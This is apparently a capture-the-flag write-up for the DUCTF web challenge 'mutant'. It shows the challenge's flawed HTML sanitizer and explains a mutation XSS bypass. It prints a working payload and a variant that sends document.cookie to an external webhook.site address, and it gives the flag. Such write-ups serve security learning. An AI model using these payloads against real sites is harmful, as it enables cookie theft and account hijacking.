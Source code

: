 # 🏷️ mutant

**Category:** Web  
**Description:**  
> Just an XSS. What more is there to it?

----
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/mutant/images/1.PNG?raw=true'>

<br></br>

**index.js**
```js
const inp = new URLSearchParams(location.search).get("input");

// Reporting stuff
reportbtn.addEventListener('click', () => {
  fetch("/report", {
    method: "POST",
    body: inp
  }).then(r => alert("Successfully reported")).catch(alert);
});

// Challenge
mytextarea.value = inp;

console.log("Original", inp);

const t = document.createElement("template");
t.innerHTML = inp;

console.log("After injecting into template", t.innerHTML);

const nodes = [t.content];
while (nodes.length > 0) {
  const n = nodes.pop();

  console.log("Parsed element", n.outerHTML);

  if (n.attributes) {
    while (n.attributes.length > 0) {
      n.removeAttribute(n.attributes[0].name);
    }
  }

  // Fix XSS reported by our bug bounty community
  if (n.nodeName !== "#document-fragment" && (n.nodeName.length === 6 || n.nodeName.length === 8)) {
    n.parentNode.removeChild(n);
    continue;
  }
  
  for (let i = n.children.length - 1; i >= 0; i--) {
    nodes.push(n.children[i]);
  }
}

console.log("After sanitization", t.innerHTML);

myoutputdebug.innerText = t.innerHTML;
myoutput.innerHTML = t.innerHTML;

console.log("Final", myoutput.innerHTML);
```

This is the sanitization process : 


```js
const nodes = [t.content];
while (nodes.length > 0) {
  const n = nodes.pop();
  console.log("Parsed element", n.outerHTML);

  if (n.attributes) {
    while (n.attributes.length > 0) {
      n.removeAttribute(n.attributes[0].name);
    }
  }

  // Fix XSS reported by our bug bounty community
  if (n.nodeName !== "#document-fragment" && (n.nodeName.length === 6 || n.nodeName.length === 8)) {
    n.parentNode.removeChild(n);
    continue;
  }
  
  for (let i = n.children.length - 1; i >= 0; i--) {
    nodes.push(n.children[i]);
  }
}
```


Iterates through the fragment’s nodes recursively.

Removes all attributes from each element.

Then tries to remove some elements based on nodeName.length:
```js
if (n.nodeName !== "#document-fragment" && (n.nodeName.length === 6 || n.nodeName.length === 8))
```

As we can see, the length is not a problem because there are some payloads we can use, such as `<svg>`, `<img>`, etc.

esting some stuff didn’t work, then I tried some mutation XSS like `<table><h1>hello</h1></table>`

and the result was `<h1>hello</h1><table></table>`
<br />
<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/mutant/images/2.PNG?raw=true'>
<br />
Then I tried to construct a valid payload and got a working one:
<br />

<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/mutant/images/3.PNG?raw=true'>
<br />

```
<math><annotation-xml encoding="text/html"><style><img src onerror=alert(origin)>
```

***Let's get the flag***

```
<math><annotation-xml encoding="text/html"><style><img src onerror=fetch('https://webhook.site/62cfc181-7e74-4ff1-9674-039cbc4fc143?x='+document.cookie)>
```

<br />

<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/mutant/images/5.PNG?raw=true'>
<br />

***Report to the admin***

<img src='https://github.com/Yazan03/CTF-writeups2025/blob/main/DU%20CTF/mutant/images/6.PNG?raw=true'>

<br />

FLAG :
```
DUCTF{if_y0u_d1dnt_us3_mutation_x5S_th3n_it_w45_un1nt3nded_435743723}
```
